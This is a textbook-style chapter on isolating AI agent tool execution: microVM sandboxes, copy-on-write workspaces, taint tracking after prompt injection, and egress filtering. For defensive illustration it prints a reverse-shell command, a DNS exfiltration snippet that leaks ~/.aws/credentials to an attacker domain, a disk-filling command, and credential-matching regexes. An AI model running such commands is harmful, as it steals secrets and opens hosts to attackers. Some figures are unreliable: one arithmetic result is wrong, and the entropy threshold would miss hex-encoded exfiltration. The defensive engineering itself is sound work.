| Isolation Technology          | Typical Boot ($T_{\text{boot}}$) | Trajectory Boot Time ($N = 40$)        | Share of Interactive Turn ($t_{\text{prod}} = 3.5\,\text{s}$) | Share of Fast Turn ($t_{\text{prod}} = 1.0\,\text{s}$) | 5% Budget Compliance ($s \le 0.05$)                         | Operational Feasibility Verdict                  |
|:------------------------------|:---------------------------------|:---------------------------------------|:--------------------------------------------------------------|:-------------------------------------------------------|:------------------------------------------------------------|:-------------------------------------------------|
| **Legacy VM (QEMU)**          | $30{,}000\text{ ms}$             | $1{,}200\text{ s}$ ($20.0\text{ min}$) | $89.6\%$ of wall clock                                        | $96.8\%$ of wall clock                                 | **Violated ($163\times\text{--}570\times$ ceiling)**        | Infeasible for per-turn sandboxing               |
| **Linux Container (Docker)**  | $250\text{ ms}$                  | $10.0\text{ s}$                        | $6.7\%$ of wall clock                                         | $20.0\%$ of wall clock                                 | **Violated ($1.35\times\text{--}4.0\times$)**               | Exceeds budget; shared kernel risk               |
| **Userspace Kernel (gVisor)** | $180\text{ ms}$                  | $7.2\text{ s}$                         | $4.9\%$ boot ($+25\%$ I/O tax)                                | $15.3\%$ boot ($+25\%$ I/O tax)                        | **Violated (via I/O penalty)**                              | Boot compliant, but steady-state I/O prohibitive |
| **Firecracker MicroVM**       | $25\text{ ms}$                   | $1.0\text{ s}$                         | $0.7\%$ of wall clock                                         | $2.4\%$ of wall clock                                  | **Satisfied ($2.1\times\text{--}7.4\times\text{ margin}$)** | **Production Standard (Hardware Isolated)**      |
| **WebAssembly (WASI)**        | $2\text{ ms}$                    | $0.08\text{ s}$                        | $0.06\%$ of wall clock                                        | $0.20\%$ of wall clock                                 | **Satisfied ($26\times\text{--}92\times\text{ margin}$)**   | Ultra-fast; limited to recompiled modules        |

: **Per-Turn Isolation Overhead and Feasibility across Serving Regimes**: Quantitative evaluation of per-call sandboxing overhead across interactive and high-throughput trajectories. {#tbl-vol3-boot-budget-feasibility tbl-colwidths="[16,14,14,14,14,14,14]"}

### MicroVM hypervisor architecture

The architecture of a production microVM runtime (exemplified by AWS Firecracker) is anchored in three load-bearing systems principles (@fig-vol3-virtualization-microvm-architecture): the **Economy of Mechanism** [@saltzer1975], the **Jailer Security Envelope**, and **Hardware-Assisted Virtualization**.

::: {#fig-vol3-virtualization-microvm-architecture fig-env="figure" fig-pos="htb" fig-cap="**AWS Firecracker MicroVM Architecture and Ephemeral Sandbox Lifecycle**: Defense-in-depth isolation showing host orchestrator interaction via Unix domain sockets, Jailer security containment (chroot, unprivileged UID/GID, cgroups v2, seccomp-bpf), minimalist VirtIO paravirtualized device drivers, and KVM hardware virtualization boundary enforcing Extended Page Tables (EPT) Second Level Address Translation." fig-alt="Architectural diagram of AWS Firecracker showing host orchestrator, Jailer security boundary with chroot and seccomp-bpf, Firecracker Rust VMM process, KVM hardware hypervisor boundary with EPT page translation, and guest Linux kernel running agent processes."}
{width="100%"}
:::

**Economy of mechanism and TCB reduction:** Traditional hypervisors (such as QEMU) emulate hundreds of legacy PC motherboard peripherals: Intel 8259 PIC interrupt controllers, PCI buses, ACPI power tables, IDE controllers, floppy drives, and PS/2 mouse interfaces. This legacy codebase introduces over 500,000 lines of C code into the Trusted Computing Base (TCB), historically yielding severe security vulnerabilities (such as the VENOM vulnerability [CVE-2015-3456], where a buffer overflow in virtual floppy disk emulation permitted arbitrary host code execution).

Firecracker strips all legacy PC motherboard emulation. Written in memory-safe Rust, it exposes strictly four minimalist paravirtualized VirtIO devices:

- `virtio-block`: Backed by a raw file or sparse block device for rootfs and storage.
- `virtio-net`: Backed by a host Linux virtual TAP interface (`tap0`) for networking.
- `virtio-vsock`: High-speed, zero-network, memory-mapped IPC between guest and host.
- `serial`: Minimal console I/O for kernel boot logging and debugging.

VirtIO eliminates the legacy trap-and-emulate penalty—which historically incurred $\sim 1{,}500$ CPU cycles per I/O port read or write—by maintaining **split virtqueues** in shared guest-host physical memory. Each virtqueue operates across three contiguous structures: a **Descriptor Table** referencing physical data buffers, an **Available Ring** where the guest driver posts buffer indices ready for processing, and a **Used Ring** where the host VMM returns completed descriptors. Guest-to-host kicks execute via asynchronous `ioeventfd` signals, while completion interrupts are injected into the guest via `irqfd`. By batching I/O descriptors across ring buffers and avoiding per-packet or per-block VMEXIT traps, `virtio-net` and `virtio-block` achieve near-native line rate with minimal host CPU overhead.

By eliminating PCI bus scanning, ACPI compilation, and legacy firmware execution, an uncompressed Linux kernel (`vmlinux`) boots directly in under $20\text{ ms}$.

**The jailer security envelope:** To enforce defense-in-depth, every Firecracker process is spawned inside an external wrapper termed the **Jailer**. Even in the event of an unknown zero-day memory exploit in Firecracker's Rust VirtIO implementation, the Jailer guarantees that the host operating system remains protected:

1. **Privilege Dropping:** Prior to launching the Virtual Machine Monitor (VMM), the Jailer permanently sheds root authority, setting process UID and GID to unprivileged credentials (for example, `uid=10001`, `gid=10001`).
2. **Filesystem Chroot:** The Jailer executes `pivot_root()` into an isolated, empty directory jail, stripping all visibility into host filesystems (`/etc`, `/var`, `/home`).
3. **Cgroup Bounding:** The process is assigned to dedicated `cgroups v2` controllers that enforce hard limits on CPU cores, cap physical RAM consumption, and restrict process counts (`pids.max`).
4. **Seccomp-BPF Filtering:** Firecracker attaches a Berkeley Packet Filter (seccomp-bpf) to its own process, restricting allowable host system calls to approximately 20 calls (for example, `ioctl(KVM_RUN)`, `read`, `write`, `epoll_wait`). Any attempt by the VMM to invoke unlisted syscalls (`execve`, `fork`, `mount`) triggers immediate `SIGSYS` kernel termination.

**Hardware hypervisor boundary (KVM):** Inside the physical CPU, guest execution occurs in **VMX Non-Root Operation** (Intel VT-x) or **SVM Guest Mode** (AMD-V). The Virtual Machine Monitor manages this execution boundary through the Linux `/dev/kvm` interface via four fundamental ioctls:

1. `ioctl(kvm_fd, KVM_CREATE_VM, 0)`: Allocates the kernel VM descriptor, initializes hypervisor state, and assigns an anonymous inode.
2. `ioctl(vm_fd, KVM_SET_USER_MEMORY_REGION, &region)`: Maps guest physical address ranges directly to contiguous Virtual Memory Areas (VMAs) in the host VMM process space.
3. `ioctl(vm_fd, KVM_CREATE_VCPU, vcpu_id)`: Allocates the vCPU thread and initializes the hardware Virtual Machine Control Structure (VMCS on Intel, VMCB on AMD).
4. `ioctl(vcpu_fd, KVM_RUN, 0)`: Drives the vCPU thread into VMX non-root execution. The thread executes guest machine code until an intercept condition triggers a `VMEXIT`, returning to the VMM in userspace with a structured exit reason (`KVM_EXIT_IO`, `KVM_EXIT_MMIO`, `KVM_EXIT_HLT`).

Guest virtual memory is decoupled from host physical memory through **Second Level Address Translation (SLAT)**, implemented as Extended Page Tables (EPT) on Intel and Nested Page Tables (NPT) on AMD. When an agent script running as `root` inside the guest kernel accesses a virtual memory address, the CPU hardware MMU traverses a two-dimensional page table:

$$\text{Guest Virtual Address (GVA)} \xrightarrow{\text{Guest Page Table}} \text{Guest Physical Address (GPA)} \xrightarrow{\text{EPT}} \text{Host Physical Address (HPA)}$$

On an x86_64 CPU with standard 4-level paging, translating a GVA requires walking four levels of guest page tables (PML4 $\to$ PDPT $\to$ PD $\to$ PT). However, because each guest page table pointer is itself a GPA, resolving each step requires a four-level EPT traversal into host physical memory. On a cold hardware TLB miss, resolving a single guest memory reference can require up to $4 \times 4 + 4 = 24$ physical memory accesses. To prevent memory walk overhead from degrading agent compilation and test runs, production microVM hosts configure 2 MB hugepages on the host and enable Virtual Processor IDs (VPID) to preserve TLB tags across `VMENTRY` and `VMEXIT` transitions.

Because this translation is enforced by physical silicon, if guest code attempts to access memory outside its assigned GPA mapping, the hardware raises an EPT violation, trapping execution back into the host KVM hypervisor. The guest has zero physical capability to read or write host physical RAM.

**Multi-tenant memory density:** Because each microVM requires minimal baseline overhead, host servers achieve massive tenant packing density. The total physical memory consumed by $K$ concurrent agent sandboxes on a host is modeled by $M_{\text{host}} = M_{\text{OS}} + K \cdot (M_{\text{base}} + M_{\text{guest\_RAM}})$.

On an enterprise server equipped with 512 GB of DRAM ($M_{\text{host}} = 512\text{ GB}$) and 16 GB reserved for the host OS ($M_{\text{OS}} = 16\text{ GB}$), the allocatable memory budget is $M_{\text{alloc}} = 512\text{ GB} - 16\text{ GB} = 496\text{ GB} = 507{,}904\text{ MB}$. For a lightweight Firecracker microVM, the baseline hypervisor memory overhead is $M_{\text{base}} \approx 5\text{ MB}$, and the guest kernel is provisioned with $M_{\text{guest\_RAM}} = 512\text{ MB}$, yielding a per-tenant footprint of $517\text{ MB}$ ($0.505\text{ GB}$). The maximum concurrent capacity is $K = \lfloor 507{,}904\text{ MB} / 517\text{ MB/microVM} \rfloor = 982\text{ concurrent microVMs}$. In contrast, a legacy QEMU virtual machine requires $M_{\text{base}} \approx 120\text{ MB}$ to emulate motherboard peripherals and demands $M_{\text{guest\_RAM}} \ge 4096\text{ MB}$ for a standard distribution kernel, consuming $4216\text{ MB}$ per instance ($K_{\text{QEMU}} = \lfloor 507{,}904\text{ MB} / 4216\text{ MB/VM} \rfloor = 120\text{ concurrent VMs}$).

Firecracker delivers an **$8.2\times$ density multiplier** over legacy VMs while preserving full hardware KVM isolation. Furthermore, because microVM root filesystems and memory snapshots are mapped with read-only page-cache sharing, clean guest pages are backed by the host's existing physical page frames rather than duplicated, allowing production fleets to overcommit memory safely and pack well over 1,200 sandboxes per host.

Containing agent execution within a hardware-assisted microVM securely isolates the host CPU registers and physical memory. Yet software engineering agents are fundamentally file-intensive: they clone multi-gigabyte repositories, install nested package dependencies, compile intermediate object files, and execute test suites. Allocating an independent raw block device for every ephemeral turn would instantly exhaust host NVMe bandwidth and physical storage capacity. To sustain hundreds of concurrent agent rollouts without performance collapse, systems architects must extend virtualization from the CPU and memory hierarchy into the storage layer through copy-on-write filesystem overlays and memory snapshotting.

## Ephemeral Snapshot Forking {#sec-vol3-virtualization-ephemeral-fs}

Consider an autonomous agent assigned to resolve a bug in a complex 10 GB monolithic codebase. The agent must clone the repository, install Python or Node dependencies, compile native libraries, and modify source files. If the agent's patch fails unit tests, the environment must be reset to a clean state before testing alternative approaches.

Provisioning a separate 10 GB raw disk image for every tool execution step would saturate host NVMe write bandwidth, consume petabytes of physical storage, and introduce 5- to 15-second provisioning delays. Production agent runtimes resolve this storage bottleneck through **Copy-on-Write (CoW) Ephemeral Filesystem Overlays** and **Memory-Snapshot Fast Forking**.

### The OverlayFS copy-on-write architecture

An OverlayFS mount combines multiple underlying directory layers into a single, unified filesystem representation: $\text{MergedFS} = \text{Overlay}(\text{LowerDir}, \text{UpperDir}, \text{WorkDir})$.

The components of the overlay are structured as follows:

1. **LowerDir (Immutable Base Layer):** A read-only filesystem tree stored on high-speed host NVMe storage. It contains the base operating system rootfs (for example, Ubuntu 24.04), pre-installed development toolchains (Python, Rust, Git, LLVM, compilers), and a pristine clone of the project repository.
2. **UpperDir (Ephemeral Read-Write Layer):** A writable directory mounted on an in-memory filesystem (`tmpfs`) or a thin-provisioned sparse block device. All runtime file modifications, new files, and deletion markers are captured exclusively in this layer.
3. **WorkDir:** An internal auxiliary directory on the same filesystem as `UpperDir`, used by the Linux VFS to prepare atomic directory replacements and file whiteouts.

**Host page cache sharing:** Because `LowerDir` is mounted strictly read-only (`O_RDONLY`), the host Linux kernel caches its filesystem pages in physical DRAM **exactly once**. If five hundred concurrent agent sandboxes execute `/usr/bin/python3` or read the git repository index, every sandbox reads from the identical physical DRAM page frames. Total storage and host memory footprint scales as $M_{\text{storage}} = S_{\text{base}} + \sum_{k=1}^K S_{\text{mut}, k}$, where $S_{\text{base}}$ is the size of the shared base rootfs and $S_{\text{mut}, k}$ is the small volume of file mutations generated by sandbox $k$.

To appreciate the systems economics, consider 500 concurrent agent sandboxes triaging pull requests against a 10 GB monolithic repository:

- **Naive Full Disk Copying:** Instantiating 500 independent raw disk images requires $500 \times 10\text{ GB} = 5{,}000\text{ GB} = 5\text{ TB}$ of storage writes and NVMe wear, imposing $5\text{--}15\text{ s}$ of provisioning delay per turn.
- **OverlayFS CoW on tmpfs:** The 10 GB `LowerDir` is loaded into host DRAM page cache *once*. When an agent compiles code or edits files, mutations accumulate in `UpperDir` on in-memory `tmpfs`. If each agent mutates an average of $S_{\text{mut}} \approx 20\text{ MB}$ of source code and test logs, the aggregate mutation storage across all 500 sandboxes is $500 \times 20\text{ MB} = 10{,}000\text{ MB} \approx 9.77\text{ GB}$. Total host footprint: $10\text{ GB} + 9.77\text{ GB} \approx 19.8\text{ GB}$—a **$250\times$ physical storage reduction** with zero NVMe write traffic on unmutated files.

**Mechanics of file mutation and whiteouts:** During agent execution, file operations proceed according to deterministic kernel virtual file system rules:

- **Read Operations:** If the target file exists in `UpperDir` (having been created or modified during the session), the VFS reads the file directly from `UpperDir`. If the file does not exist in `UpperDir`, the read request falls through transparently to `LowerDir`.
- **Write Operations (Copy-Up):** When an agent opens an existing file from `LowerDir` with write intent (`O_WRONLY` or `O_RDWR`), the kernel intercepts the operation, copies the complete file from `LowerDir` into `UpperDir`, and directs the write operation to the newly created replica. Subsequent reads and writes target this replica in `UpperDir`.
- **File Deletions (Whiteouts):** When an agent deletes a file that exists in `LowerDir` (`unlink`), the kernel cannot modify the read-only lower filesystem. Instead, it creates a special **whiteout character device** with major/minor device numbers `(0, 0)` in `UpperDir`. When the merged filesystem enumerates directory contents (`getdents64`), any entry matching a whiteout in `UpperDir` is masked out, appearing deleted to the agent.

**Instantaneous teardown and residual hygiene:** When an agent tool invocation concludes, the runtime executes workspace teardown in sub-millisecond time ($T_{\text{teardown}} = t_{\text{umount}} + t_{\text{unlink}} < 2\text{ ms}$) because unmounting `MergedFS` (`t_{\text{umount}}`) simply detaches the VFS mount node from the kernel namespace table—an $O(1)$ pointer update in the kernel mount tree. Recursively deleting `UpperDir` (`t_{\text{unlink}}`) on `tmpfs` frees page table entries directly in DRAM without issuing flash erase-block commands to NVMe or waiting on filesystem journal commits. Because all mutations, temporary build artifacts, and adversary scripts reside strictly within `UpperDir` on `tmpfs`, teardown purges 100 percent of the session's mutations in under 2 milliseconds. The underlying `LowerDir` remains cryptographically pristine. The subsequent agent invocation mounts a fresh, empty `UpperDir` over `LowerDir`, guaranteeing zero cross-session state leakage or residual contamination.

@Tbl-vol3-storage-isolation-comparison evaluates candidate storage architectures across provisioning latency, teardown duration, memory efficiency, and state hygiene.

| Storage Architecture          | Underlying Primitive                     | Provisioning Latency ($T_{\text{prov}}$) | Teardown Latency ($T_{\text{clean}}$) | Host Page Cache Sharing                 | Storage Amplification                       | Cross-Session Leak Risk                    | Max Tenant Density            |
|:------------------------------|:-----------------------------------------|:-----------------------------------------|:--------------------------------------|:----------------------------------------|:--------------------------------------------|:-------------------------------------------|:------------------------------|
| **Host Bind Mount**           | Host ext4 directory bind                 | $<1\text{ ms}$                           | $0.5\text{--}5.0\text{ s}$ (`rm -rf`) | $100\%$ (shared inodes)                 | Zero (direct writes)                        | **Catastrophic (file leaks, inode locks)** | High (unsafe)                 |
| **Full Disk Image Copy**      | `qemu-img create` / `dd`                 | $1\text{--}8\text{ s}$                   | $0.2\text{--}1.0\text{ s}$ (`unlink`) | $0\%$ (isolated block devices)          | $100\%$ (full image per VM)                 | Zero (complete block separation)           | Low ($\le 20$ VMs/host)       |
| **Docker Overlay2**           | OverlayFS on host rootfs                 | $50\text{--}150\text{ ms}$               | $100\text{--}300\text{ ms}$           | Shared lower layers                     | Thin diff on physical disk                  | Low (unless host kernel compromised)       | Medium ($\sim 100$ per host)  |
| **Sparse LVM / DM-Snapshot**  | Device-mapper CoW chunk table            | $20\text{--}60\text{ ms}$                | $10\text{--}30\text{ ms}$             | $0\%$ (block layer)                     | Moderate ($4\,\text{KB}$ chunk granularity) | Zero (block-level isolation)               | Medium ($\sim 150$ per host)  |
| **Ephemeral tmpfs OverlayFS** | `LowerDir` (NVMe) + `UpperDir` (`tmpfs`) | **$1\text{--}3\text{ ms}$**              | **$<2\text{ ms}$** (`umount` + `rm`)  | **$100\%$ (identical page-cache hits)** | **Zero disk I/O (in-RAM diff only)**        | **Zero (instant RAM discard)**             | **Maximum ($>500$ VMs/host)** |

: **Workspace Filesystem Isolation and Storage Backend Trade-Offs**: Comparative analysis of storage architectures for stateful agent execution environments. {#tbl-vol3-storage-isolation-comparison tbl-colwidths="[15,14,13,13,12,12,11,10]"}

### Storage quota defense

Unchecked agent code can accidentally or maliciously attempt a denial-of-service attack on host storage (for example, an injected agent running `cat /dev/urandom > largefile` or fork-bombing file creation). To protect host infrastructure, ephemeral overlays enforce strict quotas:

- **Block Space Quotas:** Capping `UpperDir` tmpfs size to a maximum ceiling (for example, $2\text{ GB}$). If exceeded, the kernel immediately raises an `ENOSPC` (No space left on device) error, preventing host memory exhaustion.
- **Inode Quotas:** Limiting maximum file creation counts (for example, 50,000 inodes) to prevent inode exhaustion attacks that cripple Linux filesystem tracking structures.

### Fast forking via memory snapshots

While OverlayFS solves filesystem provisioning, cold-booting a guest Linux kernel, initializing system services, and importing Python dependencies still incurs 20 to 45 milliseconds of latency. For high-throughput deliberation loops, agent runtimes use **MicroVM Memory Snapshotting and Fast Forking**.

The workflow operates as follows:

1. **Pre-Warming and Snapshot Creation:** An administrator boots a template microVM. The guest kernel initializes, the Python runtime loads, and standard tool libraries (`pytest`, `numpy`, `torch`) are imported into guest RAM.
2. **State Serialization:** The hypervisor issues a pause command, dumping the guest's vCPU register states to a micro-state file (`snapshot.vmstate`, $\sim 50\text{ KB}$) and flushing guest physical memory to a snapshot file (`snapshot.mem`).
3. **CoW Fast-Forking on Demand:** When an agent requests a sandbox, the runtime creates a new microVM instance and maps `snapshot.mem` into the process address space using `mmap()` with the `MAP_PRIVATE` flag:

```c
// Mapping snapshot memory with Copy-on-Write semantics
int fd = open("snapshot.mem", O_RDONLY);
void *guest_mem = mmap(NULL, guest_mem_size, PROT_READ | PROT_WRITE,
                       MAP_PRIVATE | MAP_NORESERVE, fd, 0);
```

Under `MAP_PRIVATE`, the operating system does not copy the memory file into RAM. Instead, it maps the page table entries to the file's disk pages. When the guest vCPU resumes execution and writes to a memory page, the host CPU raises a write-protect page fault, copying only the mutated $4\,\text{KB}$ page into private host RAM.

The total restoration latency ($T_{\text{restore}}$) is governed by three concrete systems operations:

$$T_{\text{restore}} = T_{\text{mmap}} + T_{\text{vCPU\_resume}} + \sum_{p \in \mathcal{P}_{\text{init}}} t_{\text{pagefault}}(p) \le 5\text{ ms}$$

- $T_{\text{mmap}} \approx 20\,\mu\text{s}$: An $O(1)$ kernel Virtual Memory Area (VMA) registration that sets up page table descriptors without reading physical data into RAM.
- $T_{\text{vCPU\_resume}} \approx 1.5\text{ ms}$: Restores register state (RIP, RSP, segment registers, MSRs) from the 50 KB `snapshot.vmstate` file.
- Demand Paging ($\sum t_{\text{pagefault}} \approx 1.0\text{ ms}$): The guest only faults in pages it actively touches during initialization. A pre-warmed Python process touches approximately 200 pages ($4\,\text{KB}$ each) during resume; at $\sim 5\,\mu\text{s}$ per hardware page fault, demand paging consumes roughly 1 ms.

Total restoration completes in $2.5\text{--}4.0\text{ ms}$—delivering a **$6\times\text{--}10\times$ speedup** over Firecracker cold boot ($25\text{--}45\text{ ms}$) and an astounding **$6{,}000\times$ speedup** over legacy PC hypervisors ($30\text{ s}$), enabling sub-5 ms sandbox instantiation.

**Enabling speculative search and deliberation trees:** Fast forking directly unlocks test-time search and speculative execution (@sec-vol3-deliberation). When an agent explores a tree of alternative problem-solving strategies, it encounters branching points where multiple tool actions are possible ($\tau_0 \to \{a_1 \implies s_1, \; a_2 \implies s_2, \; a_3 \implies s_3\}$).

By issuing a snapshot fork at state $\tau_0$, the runtime spawns three independent child microVMs in parallel ($< 5\text{ ms}$ each). Each branch evaluates its code mutations inside an isolated CoW memory and filesystem bubble. Branches that fail unit tests are discarded instantaneously via `umount`; the successful branch commits its diff to the parent trajectory.

Sub-millisecond Copy-on-Write overlays and memory snapshot forking solve the local storage and state-isolation bottleneck, ensuring that disk mutations and process trees can be rolled back instantly. However, local spatial containment does not prevent a running sandbox from establishing outbound network connections. During its active execution window, an untrusted script can still open TCP sockets, query remote command-and-control servers, or leak credentials via DNS queries before workspace teardown occurs. Containing the agent within a local compute and storage bubble is futile if private data can cross the network perimeter. Preventing data exfiltration requires establishing a zero-trust network boundary.

## Strict Network Egress Filtering {#sec-vol3-virtualization-network-isolation}

When an indirect prompt injection succeeds in executing shell commands, the attacker's primary objective is rarely to crash the sandbox; it is to extract sensitive proprietary assets: environment variables containing API keys, customer database records, internal source code, or cloud IAM credentials. Even with hardware-enforced microVMs and ephemeral filesystems containing the compute and storage, an agent remains vulnerable to this most damaging post-exploitation threat: **data exfiltration**.

To prevent exfiltration, the runtime must enforce **Information Flow Control (IFC)** within the agent reasoning loop and maintain a **Multi-Layer Zero-Trust Network Egress Perimeter** at the network boundary (@fig-vol3-virtualization-network-egress).

::: {#fig-vol3-virtualization-network-egress fig-env="figure" fig-pos="htb" fig-cap="**Multi-Layer Network Egress Filtering and Data Exfiltration Prevention Architecture**: Defense-in-depth network isolation enforcing complete mediation. Layer 1 kernel eBPF packet filters drop raw destination IP traffic and block cloud metadata addresses; Layer 2 transparent proxies enforce TLS SNI domain allowlists and scan payloads for secrets; Layer 3 internal DNS resolvers mitigate covert tunneling via Shannon entropy thresholds and label length caps." fig-alt="Diagram of multi-layer network egress defense showing untrusted microVM code, Layer 1 kernel eBPF packet filter dropping direct IPs, Layer 2 transparent Envoy proxy with TLS SNI allowlisting and secret scanning, Layer 3 DNS sinkhole, and allowed package repositories vs blocked C2 servers."}
{width="100%"}
:::

### Information flow control (IFC) and dynamic capability attenuation

To prevent prompt injection from escalating into data exfiltration, the execution runtime treats the agent's context window through the lens of **Dynamic Information Flow Control (DIFC)** and taint tracking [@krohn2007information]. Just as web frameworks track untrusted user input to prevent cross-site scripting and SQL injection, an agent supervisor tracks the provenance of every token entering the model's context:

- **Trusted Input ($\tau = \text{Trusted}$):** Supervisory system instructions authored by platform engineers ($X_{\text{sys}}$) and verified task instructions provided by the authenticated operator ($X_{\text{user}}$).
- **Untrusted Input ($\tau = \text{Untrusted}$):** Any external text ingested from tools or external environments ($X_{\text{env}}$)—such as web pages, pull request diffs, issue comments, compiler logs, or database rows.

Because transformer self-attention mixes token representations across all layers, context taint is **absorbing**: the moment a single untrusted token enters the context window, the cumulative execution state irrevocably transitions to $\tau_{\text{state}} = \text{Untrusted}$.[^fn-virtualization-lattice-taint]

[^fn-virtualization-lattice-taint]: @sec-vol3-appendix-math-lattice formalizes this taint propagation mathematically as a partially ordered security lattice $(\mathcal{L}, \sqsubseteq, \sqcup)$ where $\text{Trusted} \sqsubset \text{Untrusted}$ and the cumulative state taint is the join across all constituent tokens: $\tau(C_t) = \bigsqcup_{i=1}^{|C_t|} \tau(x_i)$.

Once the context state is marked `Untrusted`, the runtime enforces **Dynamic Capability Attenuation**:

1. **Tool Partitioning:** Available tools are divided into two privilege tiers:
   - **Read-Only / Non-Mutating Tools ($\mathcal{T}_{\text{read}}$):** for example, `grep_search`, `read_file`, `list_directory`. These remain accessible because reading local data inside a disposable sandbox cannot alter host infrastructure or exfiltrate state.
   - **Privileged / Mutating Tools ($\mathcal{T}_{\text{priv}}$):** for example, `bash_exec`, `send_network_request`, `git_push`. These mutate persistent state or cross network boundaries.
2. **Deterministic Interception:** If $\tau_{\text{state}} = \text{Untrusted}$, any attempt by the agent to invoke a tool $t \in \mathcal{T}_{\text{priv}}$ is intercepted by the runtime supervisor *before* execution. The call is either terminated with a capability violation error or routed to a human-in-the-loop cryptographic escrow queue. The agent can continue reading files and reasoning about code, but its ambient authority to actuate the outside world is revoked.

### Multi-layer zero-trust network egress defense

At the physical network layer, autonomous agents must never be granted direct, unrestricted internet access. Network isolation enforces the principles of **Complete Mediation** (every outbound packet must be inspected) and **Fail-Safe Defaults** (default deny) [@saltzer1975].

Production sandboxes implement a four-layer egress defense:

**Layer 1 (Kernel namespace and eBPF packet interception):** The microVM is assigned a dedicated network namespace connected via a virtual TAP device (`tap0`) without a default routing gateway to the host physical interface (`eth0`). An eBPF program attached to the kernel Traffic Control (`tc`) hook inspects every outbound frame:

1. **Direct IP Drop:** Any IP packet whose destination is a raw IPv4/IPv6 address without corresponding DNS resolution is dropped immediately with `TC_ACT_SHOT`. This defeats automated reverse shells that attempt direct TCP connections to attacker command-and-control servers (`bash -i >& /dev/tcp/198.51.100.24/4444`).
2. **Port Lockdown:** All outbound destination ports are blocked except port 443 (HTTPS) and port 53 (DNS). Non-HTTP egress protocols (SSH, IRC, SMTP) are dropped at line rate.
3. **Link-Local IMDS Blocking:** Packets destined for the link-local subnet (`169.254.0.0/16`) are dropped at wire speed with zero CPU overhead, preventing SSRF credential extraction attacks against AWS/GCP metadata services.

**Layer 2 (Transparent TLS egress proxy):** All outbound HTTPS traffic on port 443 is redirected to a local egress proxy (e.g., Envoy or a custom Rust proxy):

1. **TLS Server Name Indication (SNI) Allowlists:** Before completing the TLS handshake, the proxy inspects the `ClientHello` frame to extract the target SNI hostname, matching it against a strict organization allowlist:

```yaml
# Production Egress Proxy Policy
egress_rules:
  default_action: DENY
  allowed_domains:
    - "*.pypi.org"
    - "files.pythonhosted.org"
    - "registry.npmjs.org"
    - "api.github.com"
    - "github.com"
```

If an injected agent attempts to establish a connection to `attacker-c2.org`, the proxy terminates the TLS negotiation, returns an HTTP `403 Forbidden`, and emits a high-priority security trap.

2. **Payload Regex and Secret Redaction:** When TLS is terminated via local sandbox root certificates, the proxy scans outbound HTTP request bodies and URL query parameters for sensitive credentials:
   - AWS Access Key IDs: `AKIA[0-9A-Z]{16}`
   - GitHub Personal Access Tokens: `ghp_[0-9a-zA-Z]{36}`
   - OpenAI API Keys: `sk-[0-9a-zA-Z]{48}`
   - RSA/EC Private Keys: `-----BEGIN [A-Z]+ PRIVATE KEY-----`

Matches trigger immediate connection termination and alert dispatching.

**Layer 3 (DNS covert tunneling defense):** Attackers facing HTTP egress restrictions frequently resort to **DNS Covert Tunneling**, exfiltrating stolen secrets by encoding them into subdomain labels queried against an attacker-controlled authoritative nameserver:

```bash
# DNS Covert Exfiltration Attack
SECRET=$(cat ~/.aws/credentials | base64 | tr -d '\n')
dig ${SECRET}.attacker-domain.org
```

Even if outbound HTTP traffic is blocked, recursive DNS resolvers propagate the query across the public internet to the attacker's authoritative nameserver. To block this exfiltration channel, the sandbox DNS resolver enforces three controls:

1. **Label Length Constraints:** Any DNS label exceeding 50 characters or containing more than two subdomain levels is dropped.
2. **Shannon Entropy Filtering:** Random Base64 or hex strings exhibit significantly higher information entropy than natural domain names. For a domain label string $X = (c_1, c_2, \dots, c_n)$, Shannon entropy is computed as $H(X) = -\sum_{i=1}^k P(c_i) \log_2 P(c_i)$, where $P(c_i)$ is the empirical frequency of character $c_i$ in the label.

A threshold of $H(X) > 4.2\text{ bits/character}$ reliably separates covert exfiltration from legitimate developer DNS traffic due to four structural properties:

- **Theoretical Bounds:** In an alphabet of size $A$, maximum entropy occurs under a uniform character distribution: $H_{\max} = \log_2 A$. For Base64 ($A = 64$), $H_{\max} = \log_2(64) = 6.0\text{ bits/character}$; for hex encoding ($A = 16$), $H_{\max} = \log_2(16) = 4.0\text{ bits/character}$.
- **Natural Language Domains:** Legitimate hostnames (such as `registry` in `registry.npmjs.org` or `pypi` in `pypi.org`) use natural English words with highly skewed letter frequencies dominated by vowels and common consonants. Their empirical Shannon entropy typically falls between $2.2$ and $3.2\text{ bits/character}$.
- **Exfiltration Payloads:** Encrypted secrets or Base64-encoded tarballs (`SECRET=$(cat ~/.aws/credentials | base64)`) have near-uniform character distributions, routinely producing $H(X) \ge 4.3\text{ bits/character}$ on labels longer than 20 characters.
- **Compute Cost:** Computing $H(X)$ across a 50-character DNS label requires an $O(L)$ character frequency count and a 64-element sum—consuming fewer than 500 CPU instructions ($< 0.2\,\mu\text{s}$). The internal DNS proxy evaluates every query at wire speed, dropping exfiltration channels before packets ever escape the host.
3. **Internal Sinkholing:** Direct queries to public external DNS resolvers (`8.8.8.8`, `1.1.1.1`) are blocked at Layer 1; all lookups must route through an internal caching resolver that sinkholes Newly Registered Domains (NRDs $< 30$ days old).

@Tbl-vol3-network-egress-defense details the multi-layer network egress defense stack.

| Defense Layer                           | Enforcement Primitive                              | Protocol & Port Scope               | Filtering Policy / Detection Criterion                                                        | Primary Attack Vector Blocked                                                             | Latency Overhead                           |
|:----------------------------------------|:---------------------------------------------------|:------------------------------------|:----------------------------------------------------------------------------------------------|:------------------------------------------------------------------------------------------|:-------------------------------------------|
| **Layer 1: Kernel eBPF Packet Filter**  | Traffic Control (`tc`) hook on `tap0`              | IP / TCP / UDP (all ports)          | Drop raw destination IPs (`TC_ACT_SHOT`); block all ports except 443 and 53                   | Direct reverse shells, hardcoded C2 IP connections, non-HTTP egress (IRC, SSH, SMTP)      | $<5\,\mu\text{s}$ per packet               |
| **Layer 2a: Transparent TLS SNI Proxy** | Envoy / Rust proxy with `ClientHello` inspection   | HTTPS (Port 443)                    | Enforce strict organizational domain allowlist; deny by default                               | Unauthorized outbound connections, malicious dependency fetches, public webhook drops     | $0.5\text{--}1.5\text{ ms}$ per connection |
| **Layer 2b: Payload Secret Scanner**    | Streaming regex engine on terminated TLS stream    | HTTP request bodies & query strings | Regex match on high-entropy credential tokens (`AKIA...`, `ghp_...`, `sk-...`, private keys)  | API credential exfiltration, cloud access key theft, source code leakage                  | $2\text{--}5\text{ ms}$ per HTTP payload   |
| **Layer 3: DNS Tunneling Mitigator**    | Internal recursive caching DNS proxy               | DNS (UDP/TCP Port 53)               | Drop labels $>50$ chars; drop labels with Shannon entropy $H(X) > 4.2$; sinkhole NRDs         | Covert DNS tunneling exfiltration via subdomain encoding (`base64(secret).attacker.com`)  | $<1\text{ ms}$ per query                   |
